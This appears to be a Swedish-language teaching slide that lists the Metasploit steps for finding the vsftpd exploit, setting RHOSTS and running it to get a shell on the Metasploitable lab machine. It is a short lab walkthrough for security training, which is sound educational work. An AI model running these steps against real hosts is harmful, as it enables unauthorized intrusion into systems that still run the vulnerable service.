

# Hitta exploit i Metasploit
Öppna Metasploit, kommando: search vsftpd
Kan få info om exploit
Use 0, eller hel path
Show options för att se vad som ska ställas in
set RHOSTS ip
exploit
Kommer in i Metasploitable! (ifconfig)
exit